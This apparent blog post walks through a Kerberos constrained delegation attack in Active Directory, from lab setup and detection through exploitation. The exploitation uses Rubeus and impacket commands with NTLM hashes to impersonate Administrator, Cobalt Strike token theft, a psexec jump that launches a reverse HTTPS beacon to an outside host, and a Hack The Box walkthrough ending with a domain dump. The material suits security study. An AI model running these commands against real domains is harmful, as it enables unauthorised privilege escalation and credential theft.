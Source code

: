 ```yaml
---
title: 🎟️ Ticket to the Kingdom Kerberos Attack - Constrained Delegation
date: 2025-10-29 01:03:00 +/-TTTT
categories: [Kerberos-Attack]
tags: [Constrained-Delegation]     # TAG names should always be lowercase
image : /assets/images/conbackground.png
---
```

> Author : lineeralgebra
{:.prompt-tip}

Constrained Delegation is a security feature in Active Directory that allows a service to impersonate users to access specific downstream services, but with strict limitations on which services can be accessed. Unlike Unconstrained Delegation (which allows access to any service), Constrained Delegation restricts the delegation to explicitly defined services.

Actually its better to analyze Constrained Delegation and **Resource-based Constrained Delegation (Windows Server 2012+) together but lets take only that one first.**

## Constrained Delegation happening why?

Lets understand whats going on here first!!!

![alt text](../assets/images/kerberos37.png)

Right Click → Properties or double left Left Click and go `Delegation`  part.

1. **Open Active Directory Users and Computers**
2. Enable **Advanced Features** (View → Advanced Features)
3. Find computer **FROY**
4. Right-click → **Properties** → **Delegation** tab
5. Select: **Trust this user for delegation to specified services only**
6. Select: **Use any authentication protocol** (this enables protocol transition)
7. Click **Add** → **Users and Computers**
8. Find and select **VALENOR-DC01** computer
9. Select services: **cifs** (and optionally **host**)
10. Click **OK** → **OK**
    
![alt text](../assets/images/kerberos38.png)
    

## Constrained Delegation detection

### Constrained Delegation detection with ADsearch.exe

We used that command before and it was pretty simple now we will use same one!!!

First of all lets check for computers

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))"
```

![alt text](../assets/images/kerberos39.png)

or same for users we just have to change `objectCategory=computer` → `objectCategory=user`

### Constrained Delegation detection with PowerView.py

We used that command before and it was pretty simple now we will use same one!!!

First of all lets connect powerview!!!! and connect as web host 🙂

```bash
powerview lab.local/'nicole.aurea:D4T!w/+aCxH-'@VALENOR-DC01.lab.local --dc-ip 192.168.1.10 --web --web-host 0.0.0.0 --web-port 3000 --web-auth user:password1234
```

and run

```bash
Get-DomainComputer -TrustedToAuth
```

![alt text](../assets/images/kerberos40.png)

or with **WEB Interfaces** off course

![alt text](../assets/images/kerberos41.png)

### Constrained Delegation detection with Bloodhound

![alt text](../assets/images/kerberos42.png)

## Constrained Delegation Attack

### Constrained Delegation Attack - Windows

Nice now lets do everything we did before!! Verify something first and just GO!!!!!!!

Lets find delegation first with `impacket`

```bash
findDelegation.py  lab.local/fay.lola:'liverpool'
```

![alt text](../assets/images/kerberos43.png)

we can see too many Delegation here but when `SPN` is exist we can request ticket succesfully.!!!

Lets use **TROY$** → **cifs/DC** cause its most common one and most easy we will touch hardest one

later

- Most important things about Constraied Delegation is **BLOODHOUND CAN DETECT IT AND GIVE US COMMAND BUT NOT RECOMMEND ALWAYS WRITE PAYLOADS AND COMMAND WITH URSELF WITH UR HAND STEP-BY-STEP**

![alt text](../assets/images/kerberos44.png)

- **Before start attack if u can go `cifs` u can go everywhere**
- **If u can go HTTP,HOST,WWW,etc u can go what u can go**
- **If u wanna use WINRM after attack use HTTP for altservice cause WINRM USE HTTP**

Lets ask TGT first

```bash
execute-assembly /home/elliot/tools/Rubeus.exe asktgt /user:TROY$ /domain:lab.local /ntlm:784dea15d79c7a0201fd133cdf2c9f80 /nowrap
```

![alt text](../assets/images/kerberos45.png)

now `S4U` time

```bash
execute-assembly /home/elliot/tools/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:VALENOR-DC01 /username:TROY$ /password:Pass1234 /ticket:<ticket_goes_here>
```

![alt text](../assets/images/kerberos46.png)

and verify it

```bash
execute-assembly /home/elliot/tools/Rubeus.exe klist
```

![alt text](../assets/images/kerberos47.png)

Steal token and access

```bash
[08/21 22:11:00] beacon> steal_token 2152
[08/21 22:11:00] [*] Tasked beacon to steal token from PID 2152
[08/21 22:11:00] [+] host called home, sent: 12 bytes
[08/21 22:11:00] [+] Impersonated NT AUTHORITY\SYSTEM
[08/21 22:11:23] beacon> cd \\VALENOR-DC01.lab.local\c$\Windows\Tasks
[08/21 22:11:23] [*] cd \\VALENOR-DC01.lab.local\c$\Windows\Tasks
[08/21 22:11:23] [+] host called home, sent: 49 bytes
[08/21 22:11:41] beacon> jump psexec64 VALENOR-DC01 valenor
[08/21 22:11:41] [*] Tasked beacon to run windows/beacon_https/reverse_https (192.168.1.8:443) on VALENOR-DC01 via Service Control Manager (\\VALENOR-DC01\ADMIN$\b7825c6.exe)
[08/21 22:11:41] [+] host called home, sent: 332054 bytes
[08/21 22:11:41] [-] could not upload file: 64 - ERROR_NETNAME_DELETED
[08/21 22:11:41] [-] Could not start service b7825c6 on VALENOR-DC01: 2
[08/21 22:11:52] beacon> jump psexec64 VALENOR-DC01.lab.local valenor
```

### Constrained Delegation Attack - Linux

Its 5x 10x easier with `impacket` Lets verify first and attack fastly

```bash
getST.py -spn 'cifs/VALENOR-DC01.lab.local' -impersonate 'administrator' -hashes :784dea15d79c7a0201fd133cdf2c9f80 'lab.local/TROY$'
```

![alt text](../assets/images/kerberos48.png)

we can export it and use nxc 

![alt text](../assets/images/kerberos49.png)

BOMMMMM!!!! now we can use `--ntds` for example

## Constrained Delegation on CTFs

Im gonna use [HTB-Intelligence](https://app.hackthebox.com/machines/357)  for this part and it will be funny!!

For example lets just say we have owned `svc_init$` and check for privileges

![alt text](../assets/images/kerberos50.png)

we add to owned and look at privileges and we found we can go **Constrained Delegation** to **DC**

![alt text](../assets/images/kerberos51.png)

we can see attack vector here but lets see more interesting if we can!!!! cause in this sitation we dont know which service we ill use.

I wanna show u another great tool `SharpView.exe` which is u can find here

https://github.com/Flangvik/SharpCollection

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/SharpView.exe Get-DomainComputer -TrustedToAuth
```

We can run every PowerView comamnd with it.

![alt text](../assets/images/kerberos52.png)

and now we know where we can go! 

```bash
msds-allowedtodelegateto       : WWW/dc.intelligence.htb
```

We can also find with `findDelegation.py` tho

```bash
findDelegation.py  'intelligence.htb/svc_int$' -hashes :a9f4721de917a40fd9010ad815708184 
```

![alt text](../assets/images/kerberos53.png)

Lets attackk!!!!

```bash
getST.py -spn 'WWW/dc.intelligence.htb' -impersonate 'Administrator' -altservice 'cifs' -hashes :a9f4721de917a40fd9010ad815708184 'intelligence.htb/svc_int' 
```

![alt text](../assets/images/kerberos54.png)

**THAT WAS THE REASON WHY I SHOW THIS MACHINE**

```bash
KRB_AP_ERR_SKEW(Clock skew too great)
```

Thats the reason when our time and machine time dont match so I ALWAYS RECCEOMEND `faketime` for this

```bash
faketime "$(ntpdate -q <domain_name> | cut -d ' ' -f 1,2)" <COMMAND GOES HERE>
```

so

```bash
faketime "$(ntpdate -q intelligence.htb | cut -d ' ' -f 1,2)" getST.py -spn 'WWW/dc.intelligence.htb' -impersonate 'Administrator' -altservice 'cifs' -hashes :a9f4721de917a40fd9010ad815708184 'intelligence.htb/svc_int'
```

![alt text](../assets/images/kerberos55.png)

Thats how we do it.

```bash
➜  Intelligence export KRB5CCNAME=Administrator@cifs_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
➜  Intelligence klist
Ticket cache: FILE:Administrator@cifs_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
Default principal: Administrator@intelligence.htb

Valid starting       Expires              Service principal
08/22/2025 21:14:01  08/23/2025 07:14:00  cifs/dc.intelligence.htb@INTELLIGENCE.HTB
        renew until 08/23/2025 21:14:00
```

we can export and klist now we can dump everything

![alt text](../assets/images/kerberos56.png)
